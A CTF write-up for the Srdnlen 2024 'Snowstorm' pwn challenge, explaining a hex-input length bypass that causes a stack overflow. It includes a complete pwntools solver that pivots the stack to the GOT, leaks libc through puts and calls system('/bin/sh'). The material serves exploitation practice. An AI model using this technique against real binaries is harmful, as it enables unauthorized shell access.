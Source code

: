 # Snowstorm

## challenge information

Surdnlen CTF 2024: [challenge](https://ctf.srdnlen.it/challenges#challenge-14)
`pwn userland`

## analysis
* vulnerability
  * there is a buffer overflow vulnerability in `ask_length()`.
  ![Screenshot_20250122_221434.png](Screenshot_20250122_221434.png)
  * if the string was formatted in Hex, `strtol` return the decimal value.
  * in this case, we can bypass the size restriction by input hex value, 0x40.
* exploit plan
  * pivot stack to .got section.
  * overwrite close() -> puts()
  * return to pwnme() and earn puts(puts)
  * assemble system("/bin/sh")
## exploit
* checksec
```bash
pwndbg> checksec
Arch:     amd64
RELRO:      Partial RELRO
Stack:      No canary found
NX:         NX enabled
PIE:        No PIE (0x400000)
SHSTK:      Enabled
IBT:        Enabled
Stripped:   No
```
* stack offset
  * the distance between out input and saved rbp is 0x30
```py
   0x00000000004015bd <+83>:    call   0x40136a <ask_length>
   0x00000000004015c2 <+88>:    movsxd rdx,eax
   0x00000000004015c5 <+91>:    lea    rax,[rbp-0x30]
   0x00000000004015c9 <+95>:    mov    rsi,rax
   0x00000000004015cc <+98>:    mov    edi,0x0
   0x00000000004015d1 <+103>:   call   0x401160
```
* mapping address in .got region
![Screenshot_20250122_223117.png](Screenshot_20250122_223117.png)

## solver
```Py
from pwn import *

e = ELF("snowstorm")
libc = ELF("/usr/lib/x86_64-linux-gnu/libc.so.6")
ld = ELF("/usr/lib/x86_64-linux-gnu/ld-linux-x86-64.so.2")

context.binary = e

p = e.process()

gdb.attach(p,"""
b *pwnme+88
b *pwnme+103
b *pwnme+118
""")
# 0x00000000004015ff: or eax, 0x90fffffb; leave; ret; 
or_eax = 0x00000000004015ff
ret = 0x000000000040101a

print(p.recv())
p.send(b"0x40")
payload = b"A"*0x30
payload+= p64((e.got["strlen"])+0x30)
payload+= p64((e.sym["pwnme"])+83)
print(p.recv())
p.send(payload)

#print(p.recvuntil(b"(max 40): "))
print(p.recv())
p.send(b"0x40")
payload = p64(e.got["strlen"]) #strlen
payload+= p64(e.got["strlen"]) #printf
payload+= p64(e.plt["puts"]) #close
#payload+= p64(or_eax)
payload+= p64(0x401080) #strcspn
payload+= p64(0x401090) #read
#payload+= p64((e.got["puts"])<<32)
payload+= p32(0x404028)
payload+= p32(0x404000)
payload+= p64((e.got["strlen"])+0x30)
payload+= p64(e.sym["pwnme"]+88)
print(p.recv())
p.send(payload)

leak = u64(p.recvline().strip().ljust(8,b"\x00"))
print(f"leak: {hex(leak)}")
libc.address = leak - libc.sym["puts"]
print(f"libc@ {hex(libc.address)}")

payload = p64(0x401050) #strlen
payload+= p64(0x401050) #printf
payload+= p64(libc.sym["system"]) #close
payload+= b"/bin/sh\0" #strcspn
payload+= b"\x90"
print(p.recv())
p.send(payload)

print(p.recv())
p.send(payload)

p.interactive()
```


